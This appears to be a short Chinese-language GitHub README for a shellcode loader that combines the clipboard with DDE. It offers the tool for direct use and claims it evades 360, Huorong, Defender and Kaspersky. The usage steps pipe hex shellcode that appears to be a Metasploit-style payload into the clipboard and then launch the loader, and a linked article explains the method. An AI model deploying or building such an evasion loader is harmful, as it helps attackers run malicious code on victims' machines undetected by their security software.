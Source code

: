 # Clipboard_DDE_loader

生成的剪贴板+DDE组合的加载器，直接用

原理看之前文章吧，64位效果比32位好

静态+动态基本能过360、火绒、def、卡巴等

卡巴斯基内存查杀主要看你shellcode能不能过了

用法：
```
echo fc4883e4f0e8c00000004... | clip
start Clipboard_DDE.exe\
```

原理：
https://mp.weixin.qq.com/s/0AQzguAU8mS2ktbs-kUF3w
